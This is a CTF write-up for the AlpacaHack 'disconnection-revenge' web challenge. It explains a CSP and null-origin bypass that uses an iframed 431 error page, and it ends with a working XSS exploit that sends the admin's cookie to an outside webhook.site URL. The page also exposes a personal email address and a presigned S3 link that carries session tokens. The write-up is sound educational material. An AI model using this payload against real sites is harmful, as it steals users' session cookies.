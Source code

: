 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466T77PEERL%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T100307Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEBoaCXVzLXdlc3QtMiJHMEUCIFQTr0rTclS2hL%2FKxFxPD2JDqlgDzmocdEpqu8tg8wnfAiEAiACRy553mG32zeTaSq2BsUv6vbba07q6LGZoKDcE1JoqiAQI0%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDOefkU9w%2BMmqSJ7H9ircA98gD570rkiGS4Yt4U%2FcJ5mVYAxr4OQX3klRvDBScZp1iP%2BMHRcQEL7i2scGHgHmRGNK%2FuvSN4YOQdPbsv3QWlkLxmSrZz0kYaKSHc7HNuVPz9XtmdCUU3Glo%2FIFweaCfdwszds%2FD9Xy7V9nWrZq5j4zJos9PrK7wOWiWk6gU23UDZuNKLO7yIMYrrjVFQbDQG4BBg1oK%2Bp9q4GmIQn7FeYdcVPvgwt8%2FdSajlh8OJctgkBAsU4yD19PYDGQF0QUfSr0lC94Qywx1s362vAZBnnyG3ziqIX%2Fkf6Nb4vdBTgv8whYSp5rxU8ffj1SeBeVEfTGB1Ed5AFaVO7cKUpHQxGCO2Otdjq35oSaejW6%2Bn9WCW6nOkGLoRQj24yNb0jbBtXxX4sfZtAVcU7cVJwa7cLaSsf4tA8N%2F9wv7ifT73GhQ6uJkGLbnhxPkJg7QaAsrpNQjULWeg91LyjTpJ5rbEdNdbBxIvmVbwmsHahnzeFox3uWoK%2FqNvXoaD0XiGbhKX%2FHxy1WodmS%2FZosKKKzTh1xJhF2T0cMM6CbEVg2Lh4XuaAwBentwv73h8AEKJfhDjcFC944bvwGpI3U4ijjeA%2BtZ%2BZYoenoaZ%2BEoB0ervDiO4rfHcMrOWAhMnGxMNHdu8EGOqUBrqhN4XDJ8GyVed9BffRfgWTtBCAcP6QKm%2Fwi51GNDQKEZD%2B%2BTdPMievQwZUlpP2cziP7W%2FsH8Udoat4rktgAZ59aR6JwTB4j8VGxmJXejTINQnZNSxcROpwV9oV%2BjgS2L6Xh5EpK%2BfhOHP7Iw3Znkuz9NsoHbixxlGegfZaiuoqFlIoLOB5S1bxB7iBiNcNQsAzGGQ6FUlbfK5mXi1nOWOI7AHwm\&X-Amz-Signature=b4be44bc68a489546551e720c806c58b0df02ffa2649883314e9a4a7d46c9b0d\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
